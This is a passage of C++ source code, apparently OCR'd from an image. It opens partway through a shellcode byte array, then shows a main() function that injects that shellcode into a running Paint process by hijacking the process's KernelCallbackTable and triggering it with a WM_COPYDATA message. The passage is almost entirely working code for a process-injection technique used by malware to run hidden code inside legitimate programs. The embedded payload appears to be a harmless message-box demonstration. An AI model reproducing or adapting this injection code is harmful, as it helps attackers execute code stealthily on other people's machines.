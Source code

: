 ```cpp
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
  
  HANDLE ph;
  DWORD pid;
  PROCESS_BASIC_INFORMATION pbi;
  KERNELCALLBACKTABLE kct;
  COPYDATASTRUCT cds;
  PEB peb;
  WCHAR msg[] = L"kernelcallbacktable injection impl";

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pNtQueryInformationProcess myNtQueryInformationProcess = (pNtQueryInformationProcess)(GetProcAddress(ntdll, "NtQueryInformationProcess"));

  myNtQueryInformationProcess(ph, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

  ReadProcessMemory(ph, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
  ReadProcessMemory(ph, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);

  LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

  LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
  kct.__fnCOPYDATA = (ULONG_PTR)rb;
  WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);

  WriteProcessMemory(ph, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &tb, sizeof(ULONG_PTR), NULL);

  cds.dwData = 1;
  cds.cbData = lstrlen((LPCSTR)msg) * 2;
  cds.lpData = msg;

  SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
  WriteProcessMemory(ph, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);

  VirtualFreeEx(ph, rb, 0, MEM_RELEASE);
  VirtualFreeEx(ph, tb, 0, MEM_RELEASE);
```